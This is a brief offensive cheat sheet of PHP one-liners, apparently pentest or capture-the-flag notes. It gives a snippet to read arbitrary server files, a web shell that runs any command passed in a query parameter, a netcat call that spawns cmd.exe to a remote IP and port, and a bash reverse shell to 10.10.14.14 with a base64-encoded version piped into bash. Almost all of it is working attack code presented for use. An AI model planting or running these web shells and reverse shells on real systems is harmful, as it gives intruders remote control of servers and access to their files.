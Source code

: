 ## PHP One-liners

Read arbitrary files from the server's filesystem:

`<?php echo file_get_contents('/path/to/target/file'); ?>`

Pass an arbitrary system command via a query parameter: _(exploit.php?command=whoami)_

`<?php echo system($_GET['command']); ?>`

Execute commands on the host:

`<?php $out=shell_exec('nc64.exe IP PORT -e cmd.exe'); echo '<pre>'.$out.'</pre>'; ?>`

If theres ever a time we have a web-shell, and we want to leverage it to get a full reverse shell:

```
First, base64 encode:
echo '/bin/bash -i >& /dev/tcp/10.10.14.14/5555 0>&1' | base64

Final payload: (Dont forget to URL encode)
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjE0LzU1NTUgMD4mMQo= | base64 -d | bash
```

